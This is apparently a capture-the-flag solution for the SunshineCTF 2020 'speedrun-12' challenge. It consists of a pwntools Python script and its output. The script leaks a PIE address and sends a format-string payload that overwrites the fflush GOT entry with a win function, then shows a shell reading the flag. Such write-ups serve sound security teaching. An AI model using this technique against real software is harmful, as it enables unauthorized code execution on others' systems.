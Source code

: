 ```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_12')

if not args.REMOTE:  
   p = process(binary.path)  
else:  
   p = remote('chal.2020.sunshinectf.org', 30012)

p.recvuntil('Just a single second: ')  
_ = p.recvline().strip()  
main = int(_,16)  
binary.address = main - binary.sym.main  
log.info('binary.address: ' + hex(binary.address))  
p.sendline()

offset = 6  
payload = fmtstr_payload(offset,{binary.got.fflush:binary.sym.win})  
p.sendline(payload)

null = payload.find(b'\x00')  
p.recvuntil(payload[null-3:null])

p.interactive()  
```

Output:

```bash  
# ./exploit_12.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-12/chall_12'  
   Arch:     i386-32-little  
   RELRO:    No RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[+] Opening connection to chal.2020.sunshinectf.org on port 30012: Done  
[*] binary.address: 0x565a8000  
[*] Switching to interactive mode  
V  
$ id  
uid=1000(chall_12) gid=1000(chall_12) groups=1000(chall_12)  
$ ls -l  
total 12  
-rwxr-xr-x 1 root root     5940 Nov  7 07:49 chall_12  
-rw-r----- 1 root chall_12   32 Nov  7 08:52 flag.txt  
$ cat flag.txt  
sun{the-stage-351efbcaebfda0d5}  
```
